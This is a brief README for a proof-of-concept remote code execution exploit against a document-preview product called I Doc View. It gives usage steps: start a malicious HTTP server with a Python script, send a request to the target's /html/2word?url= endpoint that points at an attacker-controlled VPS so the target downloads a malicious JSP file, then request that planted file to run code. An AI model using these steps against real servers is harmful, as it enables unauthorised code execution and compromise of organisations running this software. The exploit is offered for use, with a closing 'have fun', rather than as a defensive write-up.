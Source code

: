 # I Doc View RCE PoC

# Usage

1. python3 idocviewrce.py start evil http server

2. GET /html/2word?url=http://youvpsip:6666 receive http request download evil jsp file

3. GET /triple_kill.jsp or GET /data/urlhtml/md5(url)/first_blood.jsp or GET /data/urlhtml/md5(url)/double_kill.jsp 

4. have fun